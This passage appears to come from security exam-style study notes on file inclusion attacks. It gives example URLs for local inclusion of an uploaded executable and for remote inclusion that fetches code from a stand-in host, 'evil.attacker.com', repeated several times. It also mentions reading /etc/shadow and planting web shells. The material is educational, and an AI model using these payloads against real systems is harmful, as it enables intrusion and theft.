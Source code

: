 `/etc/shadow`

### File Inclusion

File inclusion attacks take directory traversal to the next level. Instead of simply retrieving a file from the local operating system and displaying it to the attacker, file inclusion attacks actually execute the code contained within a file, allowing the attacker to fool the web server into executing targeted code.

File inclusion attacks come in two variants:

- Local file inclusion attacks seek to execute code stored in a file located elsewhere on the web server. They work in a manner very similar to a directory traversal attack. For example, an attacker might use the following URL to execute a file named attack.exe that is stored in the C:\www\uploads directory on a Windows server: http://www.mycompany.com/app.php?include=C:\\www\\uploads\\attack.exe

`attack.exe`

`C:\www\uploads`

`http://www.mycompany.com/app.php?include=C:\\www\\uploads\\attack.exe`

- Remote file inclusion attacks allow the attacker to go a step further and execute code that is stored on a remote server. These attacks are especially dangerous because the attacker can directly control the code being executed without having to first store a file on the local server. For example, an attacker might use this URL to execute an attack file stored on a remote server:

- http://www.mycompany.com/app.php?include=http://evil.attacker.com/attack.exe

```

http://www.mycompany.com/app.php?include=http://evil.attacker.com/attack.exe
```

`http://www.mycompany.com/app.php?include=http://evil.attacker.com/attack.exe`

When attackers discover a file inclusion vulnerability, they often exploit it to upload a web shell to the server. Web shells allow the attacker to execute commands on the server and view the results in the browser. This approach provides the attacker with access to the server over commonly used HTTP and HTTPS ports, making their traffic less vulnerable to detection by security tools. In addition, the attacker may even repair the initial vulnerability they used to gain access to the server to prevent its discovery by another attacker seeking to take control of the server or by a security team who then might be tipped off to the successful attack.
